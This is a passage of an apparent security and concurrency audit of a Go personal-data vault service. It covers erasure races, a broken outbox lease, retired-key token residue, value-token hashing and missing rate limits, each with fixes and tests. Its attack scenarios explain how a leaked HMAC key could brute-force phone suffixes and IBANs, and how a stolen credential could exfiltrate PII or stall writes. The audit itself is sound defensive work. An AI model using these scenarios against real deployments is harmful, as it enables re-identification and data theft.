**Problem.** `IssueFull` verifies the person is live with `personForClientCID` on the pool (oti.go:124), then does a `consentDenied` round trip, a `Ring.Newest` lookup and `o.Eng.Sign` (oti.go:149 — an out-of-process signer RPC when `SUNDER_SIGNER_SOCKET` is set), and only then opens a transaction and inserts the `oti` row with the default `status='VALID'` (oti.go:155-173). Nothing re-checks `erased_at` and nothing locks `persons`. `erasePerson` neutralises outstanding tokens with `UPDATE oti SET status='REVOKED' WHERE status='VALID' AND cid IN (SELECT cid FROM cids WHERE person_id=$1)` (gdpr.go:572-575) — a point-in-time UPDATE that takes no predicate lock, so an INSERT committing afterwards is not covered (and, as in GDPR-ERASURE-5, the FK to the retained `cids` tombstone makes that late INSERT succeed rather than fail).

The consumer has no tombstone check either. `VerifyFull` re-checks consent (oti.go:274-279 — but the erasure DELETEd the `consents` rows at gdpr.go:536-539, so absence means "not consent-governed" and it passes), performs the atomic USED transition (oti.go:311-315), resolves `SELECT person_id FROM cids WHERE cid=$1` (oti.go:333) and calls `ensureCID(ctx, tx, personID, client.Scope)` (oti.go:335). `ensureCID` (contacts.go:363-383) has no `erased_at` predicate at all and will `INSERT INTO cids (cid, person_id, scope)` for a tombstoned person. `shareIntoScope` (oti.go:445-472) locks only the `cids` row, never `persons`.

**Why it matters.** `ensureCID` is the only cid-minting primitive, so any caller reaching it with a tombstoned person id silently creates live-looking pseudonymous state after an Article 17 erasure — in a scope that received no `erasure_event`, because `erasePerson`'s per-scope fan-out ran over the pre-erasure list (gdpr.go:487-511).

**Failure / attack scenario.**
1. T0 — Client A (scope `crm`) calls `POST /v1/oti` for cid C of person P, audience `gov`. `personForClientCID(C)` (oti.go:124) → P is live. `consentDenied` → allowed.
2. T1 — A: `o.Eng.Sign(ctx, "oti-sign/v1", payload)` (oti.go:149). With a split-mode signer this is a unix-socket RPC; the token now exists in memory, signed, but no row.
3. T2 — Officer: `POST /v1/dsr/erase {cid:C}`. `erasePerson` runs, including `UPDATE oti SET status='REVOKED' WHERE status='VALID' AND cid IN (…)` (gdpr.go:573) — A's row does not exist, 0 rows affected — sets `erased_at`, COMMITS.
4. T3 — A: `Begin` (oti.go:155), `INSERT INTO oti (jti, cid, purpose, audience, expires_at, …)` with default `status='VALID'` (oti.go:171-173), audit append, `Commit`. A holds a signed, VALID, 5-minute handoff token for an erased person.
5. T4 — Client B (scope `gov`) calls `POST /v1/oti/verify`. `UPDATE oti SET status='USED' … WHERE … status='VALID' AND expires_at > now()` succeeds (oti.go:311-315). `SELECT person_id FROM cids WHERE cid=$1` → P. `ensureCID(tx, P, 'gov')` (oti.go:335) INSERTs a brand-new `cids` row for the tombstoned person P in scope `gov`. `shareIntoScope` reads P's issuer blob, finds it NULL and copies nothing. An `oti.verify` audit row is appended carrying the freshly minted pseudonym (oti.go:368-372), and B receives HTTP 200 with that CID as a live pseudonym.
6. Post-state: person P, erased, has a `cids` row in a scope that received no `erasure_event` and a new pseudonym in the append-only chain. B's system stores that CID believing it identifies a live subject; every later call on it 404s via `personForClientCID`, with no signal that the person was erased.

**Impact.** An Article 17 erasure does not stop an in-flight handoff. A partner scope is handed a fresh pseudonym for a person the vault has just forgotten, a new `cids` row (pseudonymous personal data) is created AFTER the erasure, and that scope never receives a delete instruction for the identifier it just recorded. No attribute values cross, because the issuer blob is NULL — unless the blob has been resurrected by GDPR-ERASURE-1 (§3), in which case `shareIntoScope` (oti.go:479-483) copies the erased person's attribute VALUES into the verifier's scope and `evalPredicates` answers predicate questions about them. The window is small (one signer round trip plus a transaction) but it is on the hot handoff path and the resulting state is permanent and silent.

**Root cause.** The same check-then-act pattern as GDPR-ERASURE-5, plus a missing invariant on the consumer side: `ensureCID` has no notion of a tombstone. `erasePerson`'s protection is a point-in-time `UPDATE … WHERE status='VALID'`, sound only if no new VALID row can appear after it — an assumption nothing enforces.

**Fix.** Two layers. (a) Producer: move the liveness check inside `IssueFull`'s transaction, before the INSERT (oti.go:~170), locking `persons` only so the c→p order is preserved — `SELECT NOT p.erased_at IS NOT NULL FROM cids c JOIN persons p ON p.id=c.person_id WHERE c.cid=$1 AND c.scope=$2 FOR UPDATE OF p`. Then either the erasure waits and its `UPDATE oti … REVOKED` covers the new row, or this read sees the tombstone and returns `ErrNotFound`. (b) Consumer: make `ensureCID` refuse tombstones — change contacts.go:363-383 so both the lookup and the insert require a live person, e.g. `INSERT INTO cids (cid, person_id, scope) SELECT $1,$2,$3 WHERE EXISTS (SELECT 1 FROM persons WHERE id=$2 AND erased_at IS NULL) ON CONFLICT … RETURNING cid`, returning `ErrNotFound` when nothing comes back. That also closes the identical check-then-act shape in `IssueScopedCid` (contacts.go:408). Add an explicit `p.erased_at IS NULL` predicate to `VerifyFull`'s person resolution at oti.go:333.

**Test required.** Integration: register P (cid C); start `OTI.IssueFull` with a test hook pausing between `Eng.Sign` and the INSERT; erase P concurrently; release. Assert `IssueFull` returns `ErrNotFound` and `SELECT count(*) FROM oti WHERE cid=$1 AND status='VALID'` == 0. Second test, no race: register P, issue an OTI, erase P, flip the row back to `VALID` by hand (simulating the race outcome) and assert `VerifyFull` returns `ErrTokenInvalid` and that no new `cids` row was created for P. Third: unit-test `ensureCID` directly against a tombstoned person and assert it returns `ErrNotFound` instead of inserting.

### QUEUE-WORKER-2 — `portal_outbox` lease is keyed on `created_at` instead of claim time (`claimed_at` is dead code), so an aged row is reap-eligible the instant it is claimed (merged with CONCURRENCY-CORE-2 and DB-TXN-6, same root cause)
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** CONCURRENCY
**Location:** `internal/service/portal.go:266-269` (claim UPDATE, never sets `claimed_at`), `:668-669` (reaper predicate), `:302-306` (transient retry), `:276-308` (sequential delivery loop), `:315-330` (settleMail); `internal/store/migrations/0018_erasure_cleanup.sql:8-10` (adds `claimed_at` for exactly this purpose)

**Problem.** Migration 0018 added `claimed_at` with the comment "A row claimed by a worker that died stays SENDING; the reaper in `retention run` returns it to PENDING". Grepping the whole tree for `claimed_at` returns exactly one hit — the `ALTER TABLE` itself. The column is never written and never read. The claim at portal.go:266-269 is `UPDATE portal_outbox SET status='SENDING' WHERE id = ANY($1)` with no timestamp, and the reaper at portal.go:668-669 is `UPDATE portal_outbox SET status='PENDING' WHERE status='SENDING' AND created_at < now() - interval '10 minutes'`. `created_at` is when the citizen requested the link (stamped at enqueue, portal.go:207-212, never updated), not when a worker claimed it. For any row older than 10 minutes the effective lease duration is ZERO: the moment the claim transaction commits, the row already satisfies the reaper predicate, and any concurrent `retention run` hands it to a second worker while the first is still mid-POST. `PrunePortal` has exactly one caller — `cmd/sunder/main.go:334`, i.e. the cron, a different process from the in-process worker, so no in-process lock could mediate this.

**Why it matters.** The reaper's predicate answers "how old is this message?" when the lease question is "how long ago was this claimed?". The purpose-built column for the correct question exists and is unwired, so the two halves of the lease protocol were never connected, and `sunder retention run` can revoke a live claim.

**Failure / attack scenario.** Two replicas (the chart default, per the comment at portal.go:221-223) plus an hourly `sunder retention run` cron. No crash required.
1. The service is down for a 15-minute rolling upgrade, or the org's `_portal` mailer webhook is failing. `portal_outbox` accumulates PENDING rows whose `created_at` is now >10 minutes old. (The same state is reached with the mailer merely slow: `SUNDER_DELIVER_INTERVAL` is legal up to 1h and `SUNDER_WEBHOOK_TIMEOUT` up to 5m, so a row can legitimately still be retrying at T+15min under `maxMailAttempts=5`.)
2. Replica A ticks. Its claim SELECT takes `ORDER BY id LIMIT 100` and commits `status='SENDING'` for all 100 (portal.go:261-273).
3. Delivery is SEQUENTIAL (portal.go:276-308) and each `p.mail` can take up to `WebhookTimeout`. With the 5s default, the tail of a 100-row batch sits in SENDING for ~8 minutes; at the 5m maximum, ~8 hours.
4. The retention cron fires anywhere inside that window. `status='SENDING' AND created_at < now()-'10 minutes'` matches every not-yet-settled row in A's batch. They all flip back to PENDING.
5. Replica B ticks (its own phase, ≤1 min later), claims the same rows, and POSTs them to the mailer again.
6. The citizen receives the same magic link twice (or N times, once per reaper/tick cycle). Independently, both A and B read `it.attempts` at claim time and later write the absolute value `attempts = it.attempts + 1` (portal.go:298-305) — a classic lost update — so the `maxMailAttempts=5` cap advances by one per cycle instead of per attempt and can be held below the cap indefinitely.

**Impact.** Duplicate delivery of portal login and erase-confirm magic links to a citizen's mailbox, repeated for as long as the reaper keeps racing the worker; a mailer that charges per send or rate-limits gets hammered; the attempt cap that is supposed to abandon a doomed mail stops bounding retries; two `portal.mail.delivered` audit rows for one logical send. Combined with QUEUE-WORKER-4 (§6, unconditional status writes) a row can cycle PENDING→SENDING→DELIVERED→PENDING. The blast radius is bounded by the token TTLs — `portalLoginTTL=15m` and `portalEraseTTL=10m` (portal.go:47-49) — and the reaper only fires at 10 minutes, so a *still-valid* login link can only be re-mailed inside a ~5-minute band, an `erase_confirm` token is already dead when reap-eligible, and `DELETE FROM portal_outbox WHERE status='PENDING' AND expires_at < now()` (portal.go:662-665) drains the rest. The existing regression test `TestPortalReaperAndPendingPruning` (portal_test.go:536-560) cannot catch this: it back-dates `created_at` on a row no worker is holding, so it asserts the reaper fires, never that it does NOT fire on a live claim.

**Root cause.** The queue has no lease. The claim commits a status flag but records no claim timestamp, so the reaper cannot distinguish "claimed and abandoned" from "claimed and in flight" and falls back to enqueue age. Two independent processes (the in-process delivery worker and the `retention run` cron) mutate the same status column with no shared lock or lease — a cross-process TOCTOU that no in-process mutex could address.

**Fix.**
1. portal.go:266-268 → `UPDATE portal_outbox SET status='SENDING', claimed_at=now() WHERE id = ANY($1)`.
2. portal.go:668-669 → `UPDATE portal_outbox SET status='PENDING', claimed_at=NULL WHERE status='SENDING' AND claimed_at < now() - interval '10 minutes'` (treat legacy `claimed_at IS NULL` rows via `COALESCE(claimed_at, created_at)` for one release, then drop the fallback).
3. Add `CREATE INDEX portal_outbox_sending_idx ON portal_outbox (claimed_at) WHERE status='SENDING'` — the reaper currently seq-scans, since `portal_outbox_pending` is partial on `status='PENDING'`.
4. Make the lease strictly longer than the worst-case batch: bound the batch by time as well as by `LIMIT 100`, or renew `claimed_at` per row before each POST.
5. Fix the lost update: replace `attempts=$2` with `attempts=attempts+1` (portal.go:302-304) so the counter is never written from a stale read, and make both settle statements conditional on `AND status='SENDING'` (see QUEUE-WORKER-4, §6).
6. Apply the identical shape to `erasure_events`, which today has neither column nor reaper (CONCURRENCY-CORE-1, §3).

**Test required.** Two-worker regression test with a mailer that blocks on a channel: worker A claims and blocks inside `p.mail`; the test calls `service.PrunePortal`; assert the row is still SENDING (the live claim must survive the reaper) and that a concurrent `DeliverPendingMail` from worker B claims nothing. Release A, assert exactly one send. A second test back-dates only `created_at` (leaving `claimed_at` fresh) and asserts `PrunePortal` does NOT requeue; a third back-dates `claimed_at` and asserts it does. A fourth asserts that N failing delivery cycles leave `attempts=N`, proving the cap is not stalled by lost updates.

#### LOW / INFORMATIONAL — concurrency

| ID | Severity | Title | Location | Fix |
|---|---|---|---|---|
| CONCURRENCY-CORE-3 | LOW | `KeyRing` holds its process-wide mutex across the `SELECT … FROM keys` round trip and advances `fetchedAt` only on success, so N stale callers pay N serialised queries and a transient failure cannot be ridden out on the last-known-good ring | `internal/service/keyring.go:49-79` (refreshLocked under the caller's lock), `:102-115` (Versions), `:118-131` (Newest); callers `contacts.go:59,83,133,137,608`, `valuetoken.go:75`, `files.go:125`, `oti.go:135,232`, `portal.go:159,201,338`, `rekey.go:40,46` | Do not hold `k.mu` across the query: use singleflight, or copy state out under the lock, query, re-acquire to publish. Serve stale on error when `k.live != nil`; record a `lastFailed` timestamp for ~1s negative back-off; give `refreshLocked` its own bounded context so one caller's deadline is not the lock hold time for everyone else |
| CONCURRENCY-CORE-6 / CRYPTO-6 | LOW (CRYPTO-6 half PLAUSIBLE) | `FileKeystore`'s stale-lock reclaim removes the `O_EXCL` lock and calls `ensureLocked` **without re-acquiring it**, so generation runs with no cross-process exclusion and two processes can `writeKey` different 32-byte values for one key name; `os.Rename` silently overwrites the loser. `f.mu` is a plain `sync.Mutex` and the second `os.Remove`'s ENOENT is discarded by `_ =`. Trigger is the designed one (a crashed generator leaves a stale lock and no key file, two replicas boot together and both judge it stale), not only clock skew on a shared volume. Unlike the Vault driver (`slog.Warn`, keystore.go:231) the file driver logs nothing when it mints | `internal/crypto/keystore.go:98-140` (Ensure; `O_EXCL` and reclaim at `:112-121`; lock-removal defer at `:135-139` reachable only on the success branch), `:143-149` (ensureLocked), `:151-177` (writeKey), `:311-326` (CachingKeystore, never invalidates) | Restart acquisition after removing a stale lock: replace `return f.ensureLocked(…)` (keystore.go:120) with a bounded retry of the whole `Ensure` body so the `O_EXCL` create decides the winner and the loser falls into the existing wait-for-rename loop (`:123-132`). Make the reclaim itself safe with an `flock(2)` `LOCK_EX|LOCK_NB` probe, or rename the stale lock to a unique name and treat a successful rename as the reclaim token. Make `writeKey` refuse to overwrite (`link(2)` instead of `rename`) and add the `slog.Warn` the Vault driver already has. For multi-replica deployments, elect the generator through the DB advisory-lock pattern or require the Vault driver, whose `cas=0` write (keystore.go:233-257) resolves this correctly |
| AUDIT-CHAIN-5 | LOW | **PLAUSIBLE.** A `ReadEvent` whose INSERT arm commits across an hour boundary lands as an open bucket in an already-sealed hour: the closer's `UPDATE … WHERE sealed_at IS NULL AND bucket_start=$1 RETURNING` cannot see an uncommitted insert and takes no gap lock, the `RowsAffected()==0` fallback only covers the ON CONFLICT arm, and the `NOT EXISTS` marker then makes the skip permanent. Window is one insert's commit latency per hour against a 1-minute closer cadence (materially wider only under `SUNDER_AUDIT_SEAL_EXTERNAL`, 200ms). Stated `pendingHours` alarm impact is overstated — `verifyAuditCmd` only prints it (main.go:504-505) and no metric consumes it | `internal/audit/reads.go:93-111` (conditional upsert), `:211-225` (closer hour selection, `NOT EXISTS` skip), `:237-240` (seal), `:388-393` (pendingHours); `internal/audit/reads_test.go:566-620` documents the end state as accepted | Give the hour an explicit closed marker new inserts must respect: an `audit_read_hours (bucket_start PRIMARY KEY, sealed_at)` row written by the closer in the same transaction, with `ReadEvent`'s INSERT conditional on it (`… WHERE NOT EXISTS (SELECT 1 FROM audit_read_hours WHERE bucket_start = date_trunc('hour', now()))`) so a zero `RowsAffected` routes to the chained-row fallback on both arms. Failing that, the closer must re-check for open buckets in the closed hour inside the same transaction and roll back if any appeared |
| GAP-4 | LOW | **PLAUSIBLE (raised by completeness critic; not independently verified).** `Sessions.Reset` holds the global `Sessions.mu` while blocking on the per-session `Session.mu`, which `handleRun` holds across `Runner.RunStep`'s outbound HTTP call (15s client timeout). Every other visitor's request enters `Server.session` → `Sessions.Get` → `s.mu.Lock()` and stalls behind it; the `pg:api` bucket allows 120 req/min, far more than the ~4 run/reset pairs a minute needed to hold the stall. The documented lock order (session.go:19) is correct — the defect is holding the inner lock across network I/O | `internal/playground/session.go:162-172` (Reset; `s.mu.Lock()` `:163`, `sess.replace` `:169`), `:70-74` (replace), `:143-157` (Get), `:34-38` (Do); `internal/playground/server.go:275-277`, `:88`, `:172-186`; `deploy/docker-compose.playground.yml:82-83` | (a) In `Sessions.Reset`, look the session up under `s.mu`, unlock, then call `sess.replace` (moving `Seen` under `Session.mu` or an atomic). (b) In `handleRun`, snapshot the variable map under the lock, run `RunStep` with no lock held, merge captures back under the lock, and add a guarded `running bool` so a second concurrent Run is rejected with 409 rather than queued |

## 5. Security Findings

Two security findings are not repeated here because §3 already covers them: the file keystore minting fresh key material with no log line (filed separately as CRYPTO-1) is the same defect as **OPS-CLI-CONFIG-1**, and the rekey sweep resurrecting `person_tokens` for a person erased mid-sweep is **GDPR-ERASURE-2**. The `portal_outbox.payload` gap in the S5 re-seal sweep is **GAP-1**.

### CRYPTO-2 / TOKENS-LOOKUP-3 — `KeyRing.Retire` purges only the base token kind, so `name_phonetic` and `phone_suffix` rows minted under a retired (possibly leaked) HMAC key survive forever
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY
**Location:** `internal/service/keyring.go:212-217` (Retire); token producers `internal/crypto/tokens.go:58-67` (`NamePhoneticToken` under `KeyHMACName` with prefix `ph1\x00`, `PhoneSuffixToken` under `KeyHMACPhone` with prefix `sfx1\x00`); writers `internal/service/contacts.go:313-326` (registerTx, sets built by `mintDerived` at `contacts.go:53-77`, `:216-229`) and `internal/service/rekey.go:219-238` (`:226`, `:235`); matcher `internal/service/lookup.go:97-125` / `contacts.go:81-96` (live versions only); kind domain `internal/store/migrations/0023_derived_search_tokens.sql:19-20`

**Problem.** `Retire` derives the token kind to purge with `strings.CutPrefix(kind, "hmac-")`, producing exactly `"name"` or `"phone"`, and deletes only `person_tokens WHERE kind=$1 AND key_version=$2`. Migration 0023 admits five kinds (`email`, `phone`, `name`, `name_phonetic`, `phone_suffix`). The two derived kinds are HMACed under the SAME parent keys and carry the SAME `key_version`, but under a `kind` the DELETE never names, so they survive retirement. Nothing else removes them: `grep -rn 'DELETE FROM person_tokens' internal/` (non-test) returns only `gdpr.go:516` (by `person_id`), `gdpr.go:835` (retention sweep, by person) and `keyring.go:214`. `rekey.go`'s `insert()` only INSERTs new-version rows; it never removes old ones. The code comment on those lines claims the purge "removes material derived from a possibly-leaked key"; for two of the five kinds it does not.

**Why it matters.** Retirement is the documented cure for a leaked search key (docs/THREAT-MODEL.md row 2). The operation that is supposed to neutralise the leak leaves behind the most brute-forceable derivative of the very data it protects.

**Failure / attack scenario.**
1. Deployment runs with `SUNDER_SEARCH_FUZZY_NAME=true` and `SUNDER_SEARCH_PHONE_SUFFIX=true`. Every registered contact has `kind='name_phonetic'` and `kind='phone_suffix'` rows at `key_version='v1'`.
2. The `hmac-phone` v1 key material is exposed (keystore volume backup, a Vault snapshot, an ex-operator).
3. Operator follows the documented cure: `sunder keys rotate -kind hmac-phone` (v2 ACTIVE, v1 RETIRING); `sunder keys rekey` (writes v2 rows for `phone` and `phone_suffix`); `sunder keys retire -kind hmac-phone -version v1`.
4. keyring.go:214 runs `DELETE FROM person_tokens WHERE kind='phone' AND key_version='v1'` — the full-number rows go.
5. `SELECT count(*) FROM person_tokens WHERE kind='phone_suffix' AND key_version='v1'` is still one row per contact. They can never match a lookup again (`tokensAllVersions` only computes tokens under live versions, contacts.go:81-96), so nothing in the product reads them and nothing ever removes them.
6. The attacker, holding the leaked v1 key and a database copy, computes `HMAC_v1("sfx1\x00" || d)` for all d in `00000000..99999999` — 10^8 MAC evaluations, minutes on commodity hardware — and joins against the retained tokens, recovering the last eight digits of every contact's phone number. The analogous attack on `kind='name_phonetic'` recovers each contact's `ph1` phonetic name code (well under 10^6 candidates), enough to shortlist a surname.

**Impact.** Post-"cure" the database still discloses, to anyone holding the leaked key, an 8-digit phone suffix and a phonetic surname code for every person in the vault — directly re-identifying, since an 8-digit suffix is the whole national number in most European plans, and precisely the pseudonymity break the keyed-HMAC design exists to prevent. Secondary: `person_tokens` accumulates one dead row per contact per derived kind per rotation forever (migration 0020 exists because this table's size is already a scaling problem at 26.8M contacts). Secondary functional damage, narrower than it first appears: the fuzzy-name narrowing clause at `lookup.go:170-174` excludes on `NOT EXISTS (kind IN ('name','name_phonetic'))`, so a person becomes unfindable by an email+name lookup only if their `kind='name'` rows were purged while stale `name_phonetic` rows remain — i.e. when the rekey sweep did not write v2 `name` rows for them (skipped or undecryptable blob).

**Root cause.** The purge derives the row `kind` from the key `kind` by string surgery, assuming a 1:1 key→kind mapping. Migration 0023 introduced a 1:many mapping (`hmac-name` → {name, name_phonetic}, `hmac-phone` → {phone, phone_suffix}) and `Retire` was not updated. There is no table mapping key kind → set of token kinds, and nothing in the rekey/retire path enumerates `person_tokens.kind`.

**Fix.** Replace the `CutPrefix` derivation with an explicit map and delete all of them:

```go
var tokenKindsForKey = map[string][]string{
    crypto.KeyHMACEmail: {"email"},
    crypto.KeyHMACPhone: {"phone", "phone_suffix"},
    crypto.KeyHMACName:  {"name", "name_phonetic"},
}
if kinds, ok := tokenKindsForKey[kind]; ok {
    // DELETE FROM person_tokens WHERE kind = ANY($1) AND key_version=$2
}
```

Add a one-off migration deleting `person_tokens` rows whose (derived kind, `key_version`) has no live parent key, to clear already-orphaned rows. Add a test-time assertion that every value permitted by the `person_tokens_kind_check` CHECK domain appears in exactly one key kind's set, so the next derived kind cannot be added without wiring its purge.

**Test required.** With `SUNDER_SEARCH_FUZZY_NAME` and `_PHONE_SUFFIX` on, register a contact and assert rows exist for kinds `name`, `name_phonetic`, `phone`, `phone_suffix` at `key_version='v1'`. Rotate both HMAC kinds, run `Contacts.Rekey`, then `Retire("hmac-phone","v1")` and `Retire("hmac-name","v1")`, and assert `SELECT count(*) FROM person_tokens WHERE key_version='v1'` is 0 (non-zero today). A second test asserts an email+name lookup still resolves the person after retirement.

### CRYPTO-3 / TOKENS-LOOKUP-4 — `value_tokens.unique_hash` is keyed by the newest `hmac-email` version and is never re-keyed or purged: rotation silently breaks `unique:true` dedup, and retirement leaves an offline dictionary oracle over IBANs/PANs/national ids
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY
**Location:** `internal/service/valuetoken.go:572-590` (validateAndHash); consumers `:406-419` (live-row SELECT), `:429-437` (dead-row DELETE), `:445-457` (adopt UPDATE), `:477-481` (INSERT), `:493-509` (23505 recovery); re-key sweep `internal/service/rekey.go:248-330` (rekeyVaults, re-seals `ciphertext`/`key_id`/`alg` only, and only `WHERE key_id <> $newestKEK`); purge `internal/service/keyring.go:212-217` (person_tokens only); index `internal/store/migrations/0032_value_tokens_cid.sql:23-24`; same pattern at `internal/service/portal.go:156-166` (`portal_email_throttle.email_token`)

**Problem.** `validateAndHash` computes the dedup hash as `hmacV := v.Ring.Newest(ctx, crypto.KeyHMACEmail)` then `MAC(hmac-email/<hmacV>, "valtok\x00"+scope+"\x00"+tokenType+"\x00"+value)` — the NEWEST version only, unlike identifier tokens, which are matched across every live version via `tokensAllVersions` (contacts.go:81-96) exactly so a rotation window does not break matching. No column records which version produced the hash (0025 defines `unique_hash BYTEA` with no companion version column; 0032 only adds `cid` and rebuilds the index as `(scope, COALESCE(cid,''), unique_hash)`), no rekey pass recomputes it, and `Retire` does not purge it. A repo-wide grep for `unique_hash` hits only `valuetoken.go` and the two migrations.

**Why it matters.** `crypto/tokens.go:24-26` states the design intent — "Separate keys per attribute mean a leak of one key never enables dictionary attacks on the others" — yet value tokenization borrows `KeyHMACEmail`, so leaking the e-mail search key hands an attacker an offline dictionary attack on every tokenized card number, IBAN and national identifier, and the documented cure does not close it.

**Failure / attack scenario.** (a) Dedup break:
1. A client tokenizes IBAN `HR1210010051863000160` with `{unique:true, cid:CID_X}` while `hmac-email/v1` is ACTIVE. Row R1 lands with `unique_hash = H_v1`.
2. `sunder keys rotate -kind hmac-email` → v2 ACTIVE (the printed note is "old tokens keep matching, rows re-key on touch").
3. `sunder keys rekey` runs; `rekeyVaults` re-seals `ciphertext` under the new KEK and leaves `unique_hash` untouched — and skips the row entirely once `key_id` already equals the newest KEK.
4. The same client re-tokenizes the same IBAN with `{unique:true, cid:CID_X}`. `validateAndHash` returns `H_v2`. The dedup SELECT at valuetoken.go:406-413 misses, the dead-row DELETE at :429-437 misses, the adopt-UPDATE at :445-453 misses, the 23505 recovery at :493-500 misses.
5. The INSERT at :477 succeeds, because the partial unique index `value_tokens_unique_uq (scope, COALESCE(cid,''), unique_hash) WHERE unique_hash IS NOT NULL` keys on the hash VALUE and `H_v2 ≠ H_v1`. Two live tokens and two ciphertexts now exist for one value under one `(scope, cid)`.

(b) Leak residue:
1. `hmac-email/v1` leaks. The operator rotates, rekeys and retires v1; the `person_tokens` e-mail rows under v1 are purged (keyring.go:213-214).
2. Every pre-existing `unique_hash` remains an HMAC of a low-entropy value under the leaked key, and nothing deletes or recomputes it.
3. The attacker with the leaked v1 key and a DB copy enumerates candidates and computes `HMAC_v1("valtok\x00"+scope+"\x00"+type+"\x00"+value)`. The `token_type` is in the MAC input and the scope is a short known string, so for a card the space is one BIN's worth of PANs constrained by Luhn (~10^8-10^9); for a Croatian OIB, 10^11 with an 11th check digit; for an IBAN, bank + account, similarly bounded. Each hit recovers the exact plaintext of the most sensitive value in the vault.
4. Repair after the fact is impossible once the row's key material is gone: recomputing the hash requires decrypting every ciphertext.

**Impact.** (a) `unique:true` — the contract that "tokenizing the same IBAN twice returns the same token instead of breeding aliases" (migration 0025) — fails silently and permanently after any `hmac-email` rotation; aliases accumulate as additional copies of sensitive data (a data-minimisation regression) and callers relying on token identity for reconciliation get duplicates. (b) The blast radius of an `hmac-email` leak extends to the value-token dedup index, and retirement does not close it. The existing regression test rotates `pii-kek`, not `hmac-email` (`TestReviewH1_UniqueSurvivesKekRotation`, valuetoken_test.go:378-399), so the rotation case is untested. The identical `Newest`-keyed, never-rekeyed pattern at `portal.go:156-166` additionally resets the per-address send throttle on rotation.

**Root cause.** `unique_hash` was designed as an index over an immutable keyed function, but the key it uses is a rotatable search key resolved dynamically via `Ring.Newest`, with write-time-only "newest version" discipline rather than the match-across-all-live-versions discipline every other keyed token uses. Neither the rekey sweep (which knows how to re-seal every other KEK-derived artefact) nor `Retire` was extended when 0025/0032 introduced the column.

**Fix.**
1. Give value tokens their own key kind (`crypto.KeyHMACValue = "hmac-value"`) added to `keyKinds()` (keyring.go:33-35) and seeded like the others, so an e-mail-search key leak does not compromise tokenized values.
2. Add `value_tokens.unique_key_version TEXT`, written alongside `unique_hash`.
3. Make dedup rotation-tolerant: compute the hash under every live version (mirroring `tokensAllVersions`) and match `unique_hash = ANY($3)` in the SELECT/DELETE/adopt/23505 queries, writing only the newest-version hash; on a hit under an older version, UPDATE the row's hash and version so the sweep converges.
4. Extend `rekeyVaults` (rekey.go:248) to decrypt each row's ciphertext — which it already holds in hand at rekey.go:276 — recompute `unique_hash` under the newest version and UPDATE both columns; have `Retire` refuse while rows carry `unique_key_version = <retiring version>`, or null them out.
5. Apply the same treatment to `portal_email_throttle.email_token`, or key it under a fixed non-rotating derivation.

**Test required.** Mirror `TestReviewH1_UniqueSurvivesKekRotation` but rotate the SEARCH key: tokenize V with `unique:true`, capture T1; `ring.Rotate(ctx, eng, crypto.KeyHMACEmail)`; run `Contacts.Rekey(ctx, true, 100)`; tokenize V again and assert the returned token equals T1 and `SELECT count(*) FROM value_tokens WHERE scope=$1` is 1 (two rows today). Second test: after Rotate+Rekey assert no row carries a hash computed under v1 (compare against `Eng.MAC(hmac-email/v1, …)` of the known plaintext), then `Retire` v1 and assert dedup still hits.

### AUTHZ-1 / TOKENS-LOOKUP-8 — The primary PII read endpoint and every chained-audit write endpoint have no per-client rate limit at all
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY
**Location:** `internal/api/server.go:225-232` (`Server.allow`) and its non-callers: `internal/api/contacts.go:55` (handleContactsRegister), `:69` (handleScopesIssue), `:85` (handleAttributeGet); `internal/api/gdpr.go:9,34,44,54,74` (consent set/list, DSR access/erase/export); `internal/api/oti.go:12,34` (issue, verify); `internal/api/shares.go:56` (handleShareFetchAuthed); the versions handlers; routes registered at `internal/api/server.go:164-203`; middleware chain `internal/api/server.go:205`, `:257-276` (instrument, never refuses); `internal/auth/auth.go:219-255` (only `"authfail:"+ip`)

**Problem.** `grep -n 'Limiter\|Allow(' internal/api/*.go` returns limiter calls only in `audit.go:35/71` (`audit-verify:`, `audit-chain:`), `contacts.go:118` (`claims:`), `lookup.go:19/103`, `portal.go:60` (`portal:`), `shares.go:69` (`share-public:`) and `server.go:226` (`allow`, used by tokens.go ×5, files.go ×6, links.go ×3 and shares.go create/revoke). Eleven v1 routes call neither: the whole contacts surface (`POST /v1/contacts`, `POST /v1/contacts/{cid}/scopes`, `GET /v1/contacts/{cid}/attributes/{name}`, the versions routes), the whole consent surface, the whole DSR surface, both OTI routes, and the default-mode authed share fetch. `GET /v1/contacts/{cid}/attributes/{name}` is the product's primary PII disclosure endpoint and `POST /v1/dsr/erase` its most destructive one. Nothing compensates: `auth.Authenticator.Middleware` throttles only *failed* authentications (auth.go:233-243), `instrument` measures and logs but never refuses, and no service in `internal/service/` references a limiter at all. `Server.allow`'s own comment states the reason these matter — "these endpoints append to the chain under a global lock, so an unbounded caller can serialize the instance" (server.go:222-224).

**Why it matters.** docs/THREAT-MODEL.md:28 names rate limits as the mitigation for a stolen bearer credential ("Only that client's actions/purposes/rate … rate limits, enumeration detection"). The per-client `rate_limit` column on `clients` is silently inoperative on the highest-volume write endpoint and the highest-volume read endpoint in the product.

**Failure / attack scenario.**
1. Exfiltration: an attacker holding a stolen `readonly` credential (actions `{lookup, attributes.read}`) enumerates CIDs it already knows and issues `GET /v1/contacts/{cid}/attributes/name?purpose=support` in a tight loop. `Contacts.GetAttribute` (contacts.go:472-530) performs all its checks and returns the decrypted value on every call; nothing counts, throttles, or trips the enumeration detector, which is fed only from `handleLookup` (lookup.go:68). The client's `rate_limit` column is never consulted on this path.
2. Write-lock DoS, multi-replica (requires `SUNDER_AUDIT_SEALING=sync`, not the default): one credential with `oti.issue` POSTs `/v1/oti` concurrently. Each call reaches `OTI.IssueFull` → `audit.AppendTx` (audit.go:174), which executes `SELECT pg_advisory_xact_lock(0x53554E44)` *inside the business transaction* and holds it until commit. Because it is a Postgres advisory lock, it serialises audit appends across every replica, so an unthrottled caller on replica 1 stalls contact registration, consent changes, file uploads, token minting and erasure on replicas 2..N. `POST /v1/contacts` is worse still: under sync sealing it holds the chain lock across the dedup SELECT, the `persons`/`person_tokens` INSERTs, `ensureCID`, and `mergeIntoBlob`'s TWO signer RPCs (decrypt + encrypt). `contacts.go:115-122` added a dedicated `claims:` bucket for exactly this reason; the five other endpoints taking the identical lock got no bucket.
